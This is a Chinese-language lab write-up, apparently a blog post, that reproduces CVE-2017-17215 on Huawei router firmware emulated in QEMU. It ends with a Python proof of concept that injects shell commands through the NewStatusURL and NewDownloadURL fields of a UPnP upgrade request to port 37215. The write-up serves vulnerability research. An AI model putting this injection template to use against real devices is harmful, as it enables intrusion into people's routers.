










# CVE-2017-17215 复现

>参考文章：
>
>https://zikh26.github.io/posts/719b289c.html

## 0x01 漏洞位置

根据漏洞披露报告与网络上已经有的复现文章，该CVE漏洞所在的程序是 `UPnP`。

使用 IDA 分析该程序，根据漏洞报告，属于RCE，大概率与未限制的`system()`有关，直接搜索然后交叉引用。





## 0x02 固件模拟

在启动 QEMU 虚拟机之前，我们先要配置一个网桥，如下是配置脚本

```shell
#!/bin/bash

if [ "$(id -u)" -ne 0 ]; then
  echo " Please switch to the root user to run this script!!!"
  exit 1
fi

# add a bridge named br0
ip link add name br0 type bridge

# add a physical interface to br0
# 这里的 enp109s0 更换为你的Linux上的有线网卡
ip link set enp109s0 master br0

# close STP
ip link set br0 type bridge stp_state 0

# set the forward delay and hello time for br0
ip link set br0 type bridge forward_delay 100
ip link set br0 type bridge hello_time 100

# enable the interface and set it to promisc mode
ip link set br0 promisc on up
ip link set enp109s0 promic on up

# assign static IP to br0
ip addr add 192.168.0.1/24 dev br0

# check the br0 status
echo "========= br0 status ========="
bridge link show

# add a tap0 interface
ip tuntap add dev tap0 mode tap user root

# bind tap0 to bridge br0
ip link set tap0 master br0

ip link set tap0 promisc on up

echo "========= final bridge status ========="
bridge link show
```

配置网桥与TAP接口的目的是方便一会连接虚拟机。

接下来下载内核模拟必备的内核以及磁盘镜像：

```bash
wget https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2
wget https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta
```

然后使用以下脚本开启虚拟机

```shell
#!/bin/bash
# boot.sh

sudo qemu-system-mips \
  -M malta \
  -kernel vmlinux-2.6.32-5-4kc-malta \
  -hda debian_squeeze_mips_standard.qcow2 \
  -append "root=/dev/sda1 console=tty0" \
  -net nic \
  -net tap,ifname=tap0,script=no,downscript=no \
  -nographic
```

默认的用户和密码都是`root`

登录后为虚拟机内部的`eth0`分配IP地址，

```bash
ip addr add 192.168.0.2/24 dev eth0
```



测试是否ping通主机网桥



可以ping通

下面测试主机是否可以ping通虚拟的IP



也可以，下面使用 scp 将打包好的根目录发送到虚拟机内部中

由于作者使用的 ssh 版本的原因，无法直接使用 scp，需要添加兼容性参数，命令如下

```bash
scp -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa ./squashfs-root.tar.gz  root@192.168.0.2:/root/
```

下面，我们使用 ssh 连接虚拟机完成下面的操作

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.0.2
```

解压后，执行下面的命令进入固件环境

```bash
chmod -R 777 squashfs-root
cd squashfs-root/
mount --bind /proc proc
mount --bind /dev dev
chroot . /bin/sh
```

根据漏洞披露报告，我们需要找到使用 `37215` 端口的程序，并向该端口的`/ctrlt/DeviceUpgrade_1` 地址发送数据包。

可以在虚拟机或者宿主机中使用`grep -r "37215" ./`查找`37215`字符串中出现在哪些程序中，搜索后发现 `bin/mic` 程序使用了 `37215` 端口

启动该程序后，发现其在输出一堆信息后停止，且 ssh 无响应。回到虚拟机中查看



发现 `eth0` 的 IP 地址消失，且创建了一个叫 `br0` 的网桥，我们需要恢复 `eth0` 的 IP 地址

```bash
ip addr add 192.168.0.2/24 dev eth0
```



至于卡住的 ssh 就不需要管了，程序已经在那个 tty 上跑起来了，关闭了 ssh，程序也就顺带的关闭了

> 其实可以在程序后面加一个 `&` 来让其在后台运行，不过已经写到这里了，那就这样吧。

在虚拟机中使用 `netstat -aut` 查看目前开启的端口



正常开启

在宿主机中使用 `nmap -p- -Pn 192.168.0.2` 查看该端口是否暴露



正常暴露

## 0x03 漏洞复现

一切准备就绪，接下来就可以使用 `poc.py` 验证漏洞了

```python
import requests

Authorization = "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
headers = {"Authorization": Authorization}

data = f'''
<?xml version="1.0" ?>
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
    <s:Body>
        <u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
            <NewStatusURL>;echo "HACKING FOR FUN";</NewStatusURL>
            <NewDownloadURL>;echo "HACKING FOR FUN";</NewDownloadURL>
        </u:Upgrade>
    </s:Body>
</s:Envelope>
'''

r = requests.post('http://192.168.0.2:37215/ctrlt/DeviceUpgrade_1', headers = headers, data = data)
print("\nstatus_code: " + str(r.status_code))
print("\n" + r.text)
```

运行后回到 ssh 连接的那个 tty 上，可以发现程序输出我们在 poc 中编写的字符串


